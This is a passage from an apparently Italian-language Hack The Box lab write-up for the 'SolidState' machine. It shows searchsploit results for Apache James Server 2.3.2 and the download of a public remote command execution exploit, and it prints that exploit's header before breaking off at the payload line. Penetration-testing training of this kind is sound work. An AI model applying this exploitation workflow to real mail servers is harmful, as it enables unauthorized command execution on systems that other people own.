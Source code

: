 Niente di utile, quindi passiamo all'enumerazione della porta 4555.

## Port: 4555

Cerchiamo con searchsploit

```bash
┌──(root㉿kali)-[/home/kali/htb/solidstate]
└─# searchsploit  Apache James Server 2.3.2
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title|  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Apache James Server 2.3.2 - Insecure User Creation Arbitrary File Write (Metasploit)| linux/remote/48130.rb
Apache James Server 2.3.2 - Remote Command Execution | linux/remote/35513.py
Apache James Server 2.3.2 - Remote Command Execution (RCE) (Authenticated) (2) | linux/remote/50347.py
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Exploiting Apache James Server 2.3.2 | docs/english/40123-exploiting-ap
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- --------------------------------
```

Perfetto, sembrerebbe che abbiamo trovato quello che fa al caso nostro 
Scarichiamo e vediamo di cosa si tratta

```bash
┌──(root㉿kali)-[/home/kali/htb/solidstate]
└─# searchsploit  -m 35513.py
  Exploit: Apache James Server 2.3.2 - Remote Command Execution
      URL: https://www.exploit-db.com/exploits/35513
     Path: /usr/share/exploitdb/exploits/linux/remote/35513.py
    Codes: N/A
 Verified: True
File Type: Python script, ASCII text executable
Copied to: /home/kali/htb/solidstate/35513.py


┌──(root㉿kali)-[/home/kali/htb/solidstate]
└─# cat 35513.py
#!/usr/bin/python
#
# Exploit Title: Apache James Server 2.3.2 Authenticated User Remote Command Execution
# Date: 16\10\2014
# Exploit Author: Jakub Palaczynski, Marcin Woloszyn, Maciej Grabiec
# Vendor Homepage: http://james.apache.org/server/
# Software Link: http://ftp.ps.pl/pub/apache/james/server/apache-james-2.3.2.zip
# Version: Apache James Server 2.3.2
# Tested on: Ubuntu, Debian
# Info: This exploit works on default installation of Apache James Server 2.3.2
# Info: Example paths that will automatically execute payload on some action: /etc/bash_completion.d , /etc/pm/config.d

import socket
import sys
import time

# specify payload
```